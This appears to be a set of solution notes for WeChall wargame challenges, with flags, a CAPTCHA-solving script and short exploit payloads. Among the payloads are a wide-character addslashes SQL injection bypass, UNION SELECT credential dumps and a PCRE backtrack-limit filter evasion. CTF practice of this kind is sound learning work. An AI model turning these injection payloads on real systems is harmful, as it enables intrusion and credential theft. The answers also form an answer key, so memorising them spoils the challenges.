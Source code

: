 ### Can you read me (Coding, Image)
use tesseract

ref: http://rk700.github.io/2014/06/23/can-you-read-me/

```bash
#!/bin/bash

wget -O ocr.png --no-cookies --header "Cookie:WC=7390992-11403-6nnwUyENAALTe4VK" 
http://www.wechall.net/challenge/can_you_readme/gimme.php

tesseract ocr.png ocr -psm 7

SOLUTION=`head -1 ocr.txt`

curl -b "WC=7390992-11403-6nnwUyENAALTe4VK" -G -d "solution=$SOLUTION" -d "cmd=Answer" \
http://www.wechall.net/challenge/can_you_readme/index.php
```


### Lettergrid (Coding)
```
zhqgbfcymzrkfnngvxhhv
hhbmprpprgcxkwwfjpbbx
jybfdpyvrxxzjbmjcqjyn
tnfgwdjzbyhttqwrlfwph
hxvrlqmrdfyygpgrqrzwp
vncvdkqmgdpnxtpnjmpfr
gzrhnbbvyhgtdpwmcgckl
dghhpfrqyvllrzwfpcmxp
blqhfrkpdqfmznmbmfycm
ddflvnhwpfhklmpzcbwfv
xfnhnncjfcxbzvnrxdkgf
lynfxotpyrcmrkndzmqrc
ccmokzvvvqodhvfxhfdfp
lvnniwwtknrhcjrdpqgzt
krmpntqbidzmwpnktbbxb
xkzfvtctfrqbmdncztbct
zfkfqzonkdjlycwbvpfkd
hhlgkrymubqbqkhfhjdjb
hcyrlllhqfxgktgbtjnth
cyhfbhdxztrqvbznvgjdt

become: networkmainboardmonitorcrypto
```

### The Nap (Crypto)


### Sudoku I (Logic)


### DropDaBass (Stegano, Audio)
http://www.wechall.net/challenge/anto/DropDaBass/record_description.php

Come on I will give you the password?


### Sidology (Research, Audio)
sid1.sid => The Last Ninja

sid2.sid => 1987 Time Warp, MUSICMASTER CREATED BY CHRIS HUELSBECK

sid3.sid => 

resource: http://artscene.textfiles.com/music/c64/HVSC/GAMES/S-Z/

```
The Last Ninja,The Great Giana Sisters,Who Dares Wins
```


### Out of the Cloud (Unknown)


### A Black Hats Tale (Cracking, Crypto, Storyline)
aircrack-ng

ref: https://github.com/CyrilP/wechall

```
jennifer
```


### Fix Us (Exploit, PHP)
Not XSS or CSRF


### Addslashes (Exploit, PHP, MySQL)
wide char!

```
username=%bf%27%20union+select+CHAR(65,100,109,105,110)%23&password=123&login=
```


### The Last Hope (Linux, Cracking)
Not "username_password"

ref: http://rk700.github.io/2014/06/23/the-last-hope/


### MD5.SALT (Cracking, MySQL)
' union select password,username from users where 1=1#

md5: 215c61d0104f8925b5f7e4e87a7cbdfa => academicsalt21

http://www.md5decrypt.org/

```
admin/academic
```


### WC Hashing Game (Cracking)
ref: https://github.com/CyrilP/wechall/blob/master/WCHash.java
```
coincidence,subversion,triangulation,orthography
```


### The Travelling Customer (Coding, Training)
https://xkcd.com/287/

def: https://github.com/xr1s/brush-title/tree/master/WeChall/The%20Travelling%20Customer


### Preg Evasion (Exploit, PHP)

pcre.backtrack_limit => default value is 100000

but 100000 is not enough

Try this => 'badmethodevilfunction' + '0' * 1000000


### Blinded by the light (MySQL, Exploit)
http://byd.dropsec.xyz/2016/07/23/Webchall-CTF-writeup2/
```
4F7CB4D8213C282B89D9D7A16FE25BB1
```


### Smile (Exploit, PHP)
Hint?: http://www.wechall.net/challenge/livinskull/smile/smiles/

Reset: http://www.wechall.net/challenge/livinskull/smile/reset.php


### Time to Reset (Exploit, Coding, PHP)
ref: https://medium.com/bugbountywriteup/wechall-wargame-solutions-76f60ea39b16


### Brainfucked (Special)
http://www.jsfuck.com/

window.alert = function(a){debugger;return window.alert(a);}

```js
(function anonymous(
) {
var s = 'UnfudgedDebugStuff'; s = s.length; alert(s); document.location.href='https://www.google.co.uk';
})
```

```
UnfudgedDebugStuff
```


### Zen (Special, Crypto)
www.youtube.com/watch?v=gjUYE21-uI0 => Manowar - Let the Gods Decide


